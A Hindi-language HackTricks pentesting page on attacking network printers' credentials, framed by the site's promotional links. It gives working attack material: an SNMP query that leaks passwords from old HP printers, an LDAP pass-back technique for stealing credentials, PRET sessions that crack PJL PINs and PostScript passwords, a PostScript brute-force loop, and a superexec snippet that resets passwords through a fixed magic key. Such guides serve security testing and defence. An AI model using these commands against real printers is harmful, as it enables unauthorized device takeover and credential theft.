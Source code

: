 # क्रेडेंशियल खुलासा / ब्रूट-फोर्स

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी कंपनी को **HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की इच्छा है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)

- प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **फॉलो** करें मुझे **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **अपने हैकिंग ट्रिक्स साझा करें, [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud)** को PR जमा करके।

</details>

प्रिंटर आमतौर पर **डिफ़ॉल्ट पासवर्ड या कोई प्रारंभिक पासवर्ड नहीं** लगाए जाते हैं। दोनों मामलों में, अंतयः उपयोगकर्ता या प्रशासकों को उपकरण को सुरक्षित करने के लिए सक्रिय रूप से पासवर्ड सेट करना होता है।

## पासवर्ड खुलासा

### SNMP

प्राचीन HP प्रिंटरों में एक विकल्पशील OID था जो पासवर्ड लौटाता था। अन्य विक्रेताओं के पास भी समान SNMP आधारित समस्याएं हो सकती हैं।
```
snmpget -v1 -c public printer iso.3.6.1.4.1.11.2.3.9.1.1.13.0
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = Hex-STRING: 41 41 41 00 …
```
### पास-बैक

यदि प्रिंटर **एक बाहरी LDAP का उपयोग करके लोगों की प्रमाणित कर रहा है**। यदि आपके पास इस सेटिंग को **बदलने का एक्सेस** है (शायद एक वेब कंसोल इंटरफेस का उपयोग करके) तो आप प्रिंटर को अपने LDAP सर्वर से कनेक्ट करके किसी भी उपयोगकर्ता की प्रमाणित कर सकते हैं।\
ध्यान दें कि आप इस सेटिंग का दुरुपयोग भी कर सकते हैं ताकि आप प्रिंटर का उपयोग करने के लिए LDAP सर्वर से कनेक्ट होने के लिए उपयोग कर रहे क्रेडेंशियल्स को **चुरा सकें**। [यहां पढ़ें और अधिक जानें](../../windows-hardening/active-directory-methodology/ad-information-in-printers.md)।

## ब्रूट-फोर्स

### PJL

PJL पासवर्ड हालांकि 16 बिट की सीमित कुंजी आकार के कारण ब्रूट-फोर्स हमलों के प्रति संवेदनशील हैं। 30 मिनट से कम समय में आप सही पासवर्ड को अनुमान लगा सकते हैं।

आप ब्रूटफ़ोर्स की जांच करने के लिए [PRET](https://github.com/RUB-NDS/PRET) के `lock` और `unlock` कमांड का उपयोग कर सकते हैं:
```
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> lock 999
PIN protection:  ENABLED
Panel lock:      ON
Disk lock:       ON
printer:/> unlock
No PIN given, cracking.
PIN protection:  DISABLED
Panel lock:      OFF
Disk lock:       OFF
```
### पोस्टस्क्रिप्ट

पोस्टस्क्रिप्ट दो प्रकार के पासवर्ड प्रदान करता है: `SystemParamsPassword` प्रिंट जॉब सेटिंग्स जैसे कागज का आकार बदलने के लिए उपयोग होता है, जबकि `StartJobPassword` पोस्टस्क्रिप्ट पर्यावरण को स्थायी रूप से बदलने के लिए सर्वर लूप से बाहर निकलने के लिए आवश्यक होता है।

पोस्टस्क्रिप्ट पासवर्ड के खिलाफ ब्रूट-फोर्स हमले बहुत तेजी से किए जा सकते हैं क्योंकि **पोस्टस्क्रिप्ट इंटरप्रेटर को लगभग खुद को क्रैक करने के लिए प्रोग्राम किया जा सकता है**:
```
/min 0 def /max 1000000 def
statusdict begin {
min 1 max
{dup checkpassword {== flush stop} {pop} ifelse} for
} stopped pop
```
एक और दृष्टिकोण है **पोस्टस्क्रिप्ट पासवर्ड को छोड़कर जाना** जिसे एडोब के प्रोप्रायटरी `superexec` ऑपरेटर के साथ उन्हें रीसेट करके किया जा सकता है। यह ऑपरेटर internaldict शब्दकोश में स्थित होता है, जिसे एक स्थिर, जादूई पासवर्ड (`1183615869`) से 'सुरक्षित' किया जाता है। सुपरेक्सेक में पोस्टस्क्रिप्ट कोड को लपेटने से हमलावर्ती भाषा के विभिन्न सुरक्षा यंत्रों को अनदेखा करने की अनुमति होती है, जो सामान्यतः एक अमान्य पहुंच त्रुटि उठाएगा। निम्नलिखित तरीके से वर्तमान पासवर्ड सबमिट किए बिना पोस्टस्क्रिप्ट पासवर्ड सेट करने के लिए इसका उपयोग किया जा सकता है:
```
{ << /SystemParamsPassword (0)
/StartJobPassword (0) >> setsystemparams
} 1183615869 internaldict /superexec get exec
```
[PRET](https://github.com/RUB-NDS/PRET) के लॉक और अनलॉक कमांड न्यूमेरिक (इंटीजर) पोस्टस्क्रिप्ट पासवर्ड के खिलाफ **ब्रूट-फोर्स** हमलों का परीक्षण करने या उन्हें **सुपरेक्स मैजिक** के साथ **बाइपास** करने के लिए उपयोग किया जा सकता है:
```
./pret.py -q printer ps
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> lock 999
printer:/> unlock
No password given, cracking.
Device unlocked with password: 999
printer:/> lock S0me_Re4lly_g00d_Passw0rd!
printer:/> unlock bypass
Resetting password to zero with super-secret PostScript magic
Device unlocked with password: 0
```
**पासवर्ड खुलासा और ब्रूट-फोर्स के बारे में अधिक जानकारी के लिए** [**http://hacking-printers.net/wiki/index.php/Credential\_disclosure**](http://hacking-printers.net/wiki/index.php/Credential\_disclosure)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की आवश्यकता है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह

- प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या मुझे **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)** का पालन करें।**

- **अपने हैकिंग ट्रिक्स को [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके साझा करें।**

</details>
